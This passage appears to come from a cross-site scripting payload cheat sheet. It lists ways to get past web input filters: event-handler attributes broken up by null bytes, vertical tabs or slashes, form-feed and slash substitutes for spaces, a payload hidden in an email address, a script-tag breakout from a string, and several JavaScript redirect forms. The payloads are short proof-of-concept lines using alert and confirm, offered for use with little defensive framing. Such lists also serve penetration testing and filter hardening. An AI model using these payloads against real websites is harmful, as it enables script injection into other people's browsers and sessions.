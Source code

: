 ### Bypass onxxxx= blacklist

```javascript
<object onafterscriptexecute=confirm(0)>
<object onbeforescriptexecute=confirm(0)>

// Bypass onxxx= filter with a null byte/vertical tab
<img src='1' onerror\x00=alert(0) />
<img src='1' onerror\x0b=alert(0) />

// Bypass onxxx= filter with a '/'
<img src='1' onerror/=alert(0) />
```

### Bypass space filter

```javascript
// Bypass space filter with "/"
<img/src='1'/onerror=alert(0)>

// Bypass space filter with 0x0c/^L
<svgonload=alert(1)>

$ echo "<svg^Lonload^L=^Lalert(1)^L>" | xxd
00000000: 3c73 7667 0c6f 6e6c 6f61 640c 3d0c 616c  <svg.onload.=.al
00000010: 6572 7428 3129 0c3e 0a                   ert(1).>.
```

### Bypass email filter

```javascript
"><svg/onload=confirm(1)>"@x.y
```

### Bypass document blacklist

```javascript
<div id = "x"></div><script>alert(x.parentNode.parentNode.parentNode.location)</script>
```

### Bypass using javascript inside a string

```javascript
<script>
foo="text </script><script>alert(1)</script>";
</script>
```

### Bypass using an alternate way to redirect

```javascript
location="http://google.com"
document.location = "http://google.com"
document.location.href="http://google.com"
window.location.assign("http://google.com")
window['location']['href']="http://google.com"
```
